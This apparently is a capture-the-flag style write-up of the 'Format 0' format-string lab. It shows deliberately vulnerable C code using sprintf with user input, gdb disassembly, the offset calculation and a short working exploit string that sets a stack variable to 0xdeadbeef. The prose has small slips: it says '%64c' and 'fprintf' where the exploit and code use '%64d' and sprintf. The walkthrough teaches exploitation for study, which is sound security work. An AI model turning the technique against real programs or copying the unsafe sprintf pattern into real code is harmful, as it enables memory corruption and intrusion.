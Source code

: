 ```yaml
---
title: Format 0
sidebar_position: 6
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


> This level introduces format strings, and how attacker supplied format strings can modify the execution flow of programs.
> **Hints**
> - This level should be done in less than 10 bytes of input.
> - “Exploiting format string vulnerabilities”

## Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```
- The program expects one user supplied argument as shown by `vuln(argv[1]);`.
- The code then uses `sprintf` which is where the vulnerability lies.
```
## Bugs

Because **sprintf**() and **vsprintf**() assume an arbitrarily long string, callers must be careful not to overflow the actual space; this is often impossible to assure. Note that the length of the strings produced is locale-dependent and difficult to predict. Use **snprintf**() and **vsnprintf**() instead (or **[asprintf](https://linux.die.net/man/3/asprintf)**(3) and **[vasprintf](https://linux.die.net/man/3/vasprintf)**(3)).

Linux libc4.[45] does not have a **snprintf**(), but provides a libbsd that contains an **snprintf**() equivalent to **sprintf**(), that is, one that ignores the _size_ argument. Thus, the use of **snprintf**() with early libc4 leads to serious security problems.

Code such as **printf(**_foo_**);** often indicates a bug, since _foo_ may contain a % character. If _foo_ comes from untrusted user input, it may contain **%n**, causing the **printf**() call to write to memory and creating a security hole.
```
- Before we exploit the program, we need to know how the stack is laid out.
- Let's disassemble the `vuln` function.
```
(gdb) disass vuln
Dump of assembler code for function vuln:
0x080483f4 <vuln+0>:    push   ebp
0x080483f5 <vuln+1>:    mov    ebp,esp
0x080483f7 <vuln+3>:    sub    esp,0x68
0x080483fa <vuln+6>:    mov    DWORD PTR [ebp-0xc],0x0
0x08048401 <vuln+13>:   mov    eax,DWORD PTR [ebp+0x8]
0x08048404 <vuln+16>:   mov    DWORD PTR [esp+0x4],eax
0x08048408 <vuln+20>:   lea    eax,[ebp-0x4c]
0x0804840b <vuln+23>:   mov    DWORD PTR [esp],eax
0x0804840e <vuln+26>:   call   0x8048300 <sprintf@plt>
0x08048413 <vuln+31>:   mov    eax,DWORD PTR [ebp-0xc]
0x08048416 <vuln+34>:   cmp    eax,0xdeadbeef
0x0804841b <vuln+39>:   jne    0x8048429 <vuln+53>
0x0804841d <vuln+41>:   mov    DWORD PTR [esp],0x8048510
0x08048424 <vuln+48>:   call   0x8048330 <puts@plt>
0x08048429 <vuln+53>:   leave
0x0804842a <vuln+54>:   ret
```
- We can see that the line at `vuln+26` makes the call to `sprintf`.
```
--snip--;
0x08048408 <vuln+20>:   lea    eax,[ebp-0x4c]
0x0804840b <vuln+23>:   mov    DWORD PTR [esp],eax
0x0804840e <vuln+26>:   call   0x8048300 <sprintf@plt>
--snip--;
```
- The first argument is the address `ebp-0x4c` and it is loaded into `eax`.
- If we look at the man page of `sprintf` we can see that the first argument is the location of the buffer.
```c
int sprintf(char *restrict _s_, const char *restrict _format_, ...);
```
- Looking back at the disassembled code of `vuln` at `vuln+34` a comparison is being made.
```
--snip--;
0x08048413 <vuln+31>:   mov    eax,DWORD PTR [ebp-0xc]
0x08048416 <vuln+34>:   cmp    eax,0xdeadbeef
--snip--;
```
- This is checking if the `target` variable is set to `0xdeadbeef`. The value being compared is being moved from `ebp-0xc`.
- So we know the location of the `buffer` as well as the `target` variable. Let's find the distance between them.
```
(gdb) p/d 0x4c - 0xc
$1 = 64
```
- So the distance is 64 bytes but we have been instructed to use less than 10 bytes. Which means a classic buffer overflow will not work.
- This is where the format string attack comes in.
- Instead of submitting 64 bytes of padding we can submit the format string `%64c` which translates to 64 characters.
- When `fprintf` is executed, it takes the bytes after the format string and overwrites the `target` variable.

## Exploit
```
$ ./format0 $(python -c 'print "%64d\xef\xbe\xad\xde"')
you have hit the target correctly :)
```
